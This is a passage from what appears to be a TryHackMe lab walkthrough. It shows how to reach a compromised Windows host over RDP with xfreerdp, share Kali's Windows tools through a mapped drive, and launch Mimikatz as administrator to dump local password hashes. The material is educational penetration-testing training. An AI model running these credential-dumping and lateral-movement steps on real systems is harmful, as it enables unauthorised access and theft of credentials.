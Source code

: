 Note that evil-winrm usually gives medium integrity shells for added  administrator accounts. Even if your new account has Administrator  permissions, you won't actually be able to perform administrative  actions with it via winrm.

------

Now let's look at connecting over RDP for a GUI environment. 

There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can  install xfreerdp with the command:
`sudo apt install freerdp2-x11`

As mentioned, xfreerdp is an incredibly versatile tool with a vast number  of options available. These range from routing audio and USB connections into the target, through to pass-the-hash attacks over RDP. The most basic syntax for connecting is as follows:
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD`

For example:
`xfreerdp /v:172.16.0.5 /u:user /p:'password123!'`

Note that (as this is a command line tool), passwords containing special characters must be enclosed in quotes.

When authentication has successfully taken place, a new window will open giving GUI access to the target.
![Demonstration of logging in over RDP](https://assets.tryhackme.com/additional/wreath-network/a40854512a5e.png)

That said, we can do a *lot* more with xfreerdp. These switches are particularly useful:-

- `/dynamic-resolution` -- allows us to resize the window, adjusting the resolution of the target in the process
- `/size:WIDTHxHEIGHT` -- sets a specific size for targets that don't resize automatically with `/dynamic-resolution`
- `+clipboard` -- enables clipboard support
- `/drive:LOCAL_DIRECTORY,SHARE_NAME` -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our  toolkit on the remote target, and save any outputs back directly to our  own hard drive. In essence, this means that we never actually have to  create any files on the target. For example, to share the current  directory in a share called `share`, you could use: `/drive:.,share`, with the period (`.`) referring to the current directory

When creating a shared drive, this can be accessed either from the command line as `\\tsclient\`, or through File Explorer under "This PC":
![Showing the share created by xfreerdp when specifying /drive](https://assets.tryhackme.com/additional/wreath-network/9cd2021f9d36.png)

Note that the name of the share will change according to what you selected in the `/drive` switch.

A useful directory to share is the `/usr/share/windows-resources` directory on Kali. This shares most of the Windows tools stockpiled on  Kali, including Mimikatz which we will be using next. This would make  the full command:
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

------

With GUI access obtained and our Windows resources shared to the target, we  can now very easily use Mimikatz to dump the local account password  hashes for this target. Next we open up a `cmd.exe` or `PowerShell` window *as an administrator* (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:
`\\tsclient\share\mimikatz\x64\mimikatz.exe`
![Accessing mimikatz via the RDP share](https://assets.tryhackme.com/additional/wreath-network/fcb90c0d6fc5.png)
